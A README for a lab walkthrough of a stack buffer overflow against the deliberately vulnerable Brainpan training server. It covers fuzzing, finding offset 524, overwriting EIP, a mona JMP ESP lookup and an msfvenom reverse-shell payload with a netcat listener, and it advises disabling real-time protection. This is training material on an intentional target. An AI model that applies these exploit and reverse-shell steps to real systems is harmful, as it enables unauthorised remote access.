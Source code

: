 <h1>Hacksudo Brainpan BOF server </h1>
visit brainpan 1 box walktrhough 
https://leetvilu.blogspot.com/2021/03/brainpan-1-box-walkktrhough-hacksudocom.html
<h2>steps</h2></br>
<h3>1 spiking</n>
<br>2 fuzzing</n>
<br>3 finding the offset
<br>4 overwriting the EIP
<br>5 finding bad characters
<br>6 finding the right modules
<br>7 Generating Shellcode</h3></br></br></br></br></br>
<p><h2>1 Spiking </h2></p>
First make sure Your firewall real protection turn off
Now run brainpan server as admin
use your spiking.spk to find Vulnerability 
script is --> 
<b> s_readline();
"s_string("TRUN ");"
s_string_variable("0");
</b>

Now use generic_send_tcp (target)IP (target)PORT spiking.spk 0 0
(if server crash ? boom you  succeed 

<h2> 2 fuzzing</h2>
Now time to find Number of size buffer which crash server 
(use chmod +x * )
 ./brainpan.py 192.168.43.161 9999 ( here your brainpan server will crash and you will get avarage amount o buffer size
Now create pattern , why ? to find exact number of Buffer size
First create unic pattern using metasploit tool
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500( here your last (brainpan.py) crash avarage number , which 
must greater.  
 Now use offsetcalc.py to find lenght which you will use later to  find offset which is our exact buffer size in byte :D 
 ./offsetcalc.py IP PORT
get EIP value ? now use it at offset

<h2> 3 finding the offset</h2>
find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 35724134
[*] Exact match at offset 524
 boom ?? we get Exact Number of size which is 524

<h2>4. overwriting the EIP</h2>
Now Verify EIP Overwrite, add B*4 and check debuger print 42424242 at EIP 
./brainpanEIPWt.py IP PORT
 YES --> ok great

<h2>5. finding bad characters</h2>
Now find Bad chars which is use while create shellcode , actualy  we dont need to find  bad chars in this servers, but dont skip this step go head
and just do practice ;) 
 ./brainpanBadChard.py IP PORT
remember how to find Bad chars ? opps no ? dont worry just do hard else catch me on insta i'll explain you 
https://instagram.com/realvilu
:)

<h2>6. finding the right modules</h2>
Downloaded Mona modules ? . no ? download it  --> https://github.com/corelan/mona and add it at exact place
use command 
!mona mudules
!mona find -s "\xff\xe4" -m brainpan.dll
now find base value note it down
and make sure ur JMP ESP Using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

now do make sure you selected your JMP ESP make sure your base value is right 

fire offsetverify.py
./offsetverify.py IP PORT
make sure its work you controling EIP or not if yes then go head and do shell using shellcode
control EIP done

<h2>7. Generating Shellcode</h2>
now generarte shellcode 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.216 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"(make sure your bad chars)

"A" * 524 + (JMP ESP value) "\xf3\x12\x17\x31"  (reverse way) +  "\x90" * 8 ( this is nops value minimum which make space between shell and JMP ESP+ shell 
make sure your nc is ready
 nc -lvnp 443 
and now fire your final code 
./finalexploit.py IP PORT

boom you will get shell 
if not then sorry please recheck all step clearly 
thanks i hope you love this repo :D 
<h1>love you guys thanks for watching </h1>
<b>
<br>visit our official Website : https://hacksudo.com</br>
<br>hacksudo Linkedin https://www.linkedin.com/in/hack-sudo-230a871b3/</br>
<br> visit linkedin https://www.linkedin.com/in/realvilu </br>
<br><h2>Author Vishal waghmare</h2></br>
<h3>Happy Hacking :)</h3>
